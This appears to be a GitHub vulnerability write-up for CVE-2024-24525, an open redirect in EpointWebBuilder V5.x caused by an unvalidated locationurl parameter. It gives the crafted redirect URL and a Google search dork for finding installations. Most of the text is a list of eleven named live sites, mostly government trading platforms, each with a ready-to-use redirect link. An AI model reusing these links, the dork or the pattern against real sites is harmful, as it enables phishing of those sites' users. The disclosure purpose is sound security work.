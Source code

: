 # EpointWebBuilder_v5.x_VULN

[CVE ID]
> CVE-2024-24525

[VulnerabilityType Other]
> Open redirect vulnerability

[Affected Product Code Base]
> EpointWebBuilder - V5.x

[CVE Impact Other]
> allows a remote unauthenticated attacker to redirect users to arbitrary websites and conduct phishing attacks via a specially crafted URL.


## Step
Tests revealed the following links in the site:
http://xxx.cn/EpointWebBuilder/pageRedirectAction.action?cmd=pageRedirect&locationurl=http://xxx.cn&infoid=4a1ba0e4-95b3-4e58-9b8c-7530247b82a4  
The locationurl specifies the location where the visitor will be redirected, and the infoid parameter is directly related to the path of the redirected resource.  
However, the infoid and locationurl parameters have no validation beyond this.  
Therefore, make the following link: 
http://xxx.cn/EpointWebBuilder/pageRedirectAction.action?cmd=pageRedirect&locationurl=http://google.com/%23&infoid=4a1ba0e4-95b3-4e58-9b8c-7530247b82a4 , 
where the infoid parameter must be an existing UUID.   
The system will redirect the visitor to any location according to the locationurl parameter, which is google.com in the above example.
302=>
https://www.google.com/#/jyxx/001006/001006001/20230825/4a1ba0e4-95b3-4e58-9b8c-7530247b82a4.html

This single url would allow a remote unauthenticated attacker to redirect users to arbitrary websites and conduct phishing attacks via a specially crafted URL.
## Example
google query: 
`inurl:“pageRedirectAction”`

1.	江苏省公共资源交易平台（EpointWebBuilder V5.1.0-sp1）
http://ggzy.taizhou.gov.cn/EpointWebBuilder/pageRedirectAction.action?cmd=pageRedirect&locationurl=http://baidu.com/%23&infoid=4a1ba0e4-95b3-4e58-9b8c-7530247b82a4
2.	龙岩公共资源交易中心
https://ggzy.longyan.gov.cn/EpointWebBuilder/pageRedirectAction.action?cmd=pageRedirect&locationurl=http://baidu.com/%23&infoid=451f2a3e-2f0c-4271-bb30-38fe6a840441
3.	鞍钢智慧招投标平台
http://bid.ansteel.cn/EpointWebBuilder/pageRedirectAction.action?cmd=pageRedirect&locationurl=http://baidu.com/%23&infoid=b46c9bfc-f2b4-4ea0-aac3-41d94aedf5bf
4.	喀什地区公共资源交易网
http://36.189.231.22/EpointWebBuilder/pageRedirectAction.action?cmd=pageRedirect&locationurl=http://baidu.com/%23&infoid=32c96e01-46e9-46e3-b8ae-859a4ce0971a
5.	和田公共资源交易网（EpointWebBuilder V5.4.1）
http://36.107.230.199:8081/EpointWebBuilder/pageRedirectAction.action?cmd=pageRedirect&locationurl=http://baidu.com/%23&infoid=18366a85-4578-4157-9a8f-7620e8467413
6.	莆田市人民政务
http://ggzyjy.xzfwzx.putian.gov.cn:8808/EpointWebBuilder/pageRedirectAction.action?cmd=pageRedirect&locationurl=http://baidu.com/%23&infoid=1ac797e4-25b7-4c08-8b69-a8113b1e6de0
7.	博州公共资源交易网（EpointWebBuilder V5.2.1-sp1）
http://xzfw.xjboz.gov.cn/EpointWebBuilder/pageRedirectAction.action?cmd=pageRedirect&locationurl=http://baidu.com/%23&infoid=279f97b6-3d3f-465a-806c-8904c26ad84c
8.	枣庄市公共资源交易网（EpointWebBuilder V5.4.1）
http://ggzy.zaozhuang.gov.cn/EpointWebBuilder/pageRedirectAction.action?cmd=pageRedirect&locationurl=http://baidu.com/%23&infoid=e37ce09f-420d-42b7-9079-302dc9b34aad
9.	芜湖市公共资源交易中心（EpointWebBuilder V5.4.2）
http://whsggzy.wuhu.gov.cn/EpointWebBuilder/pageRedirectAction.action?cmd=pageRedirect&locationurl=http://baidu.com/%23&infoid=38e7ee57-5a22-4c89-ba59-082f42991f01
10.	博州公共资源交易网（EpointWebBuilder V5.2.1-sp1）
http://xzfw.xjboz.gov.cn/EpointWebBuilder/pageRedirectAction.action?cmd=pageRedirect&locationurl=http://baidu.com/%23&infoid=5bd400a1-08fd-4230-a8c0-11e9ff084cd9
11. 克州公共资源交易网
http://kzggzyjy.com.cn:8024/EpointWebBuilder/pageRedirectAction.action?cmd=pageRedirect&locationurl=http://baidu.com/%23&infoid=39f1209f-a5ee-454a-8434-9ea8d7e12db3

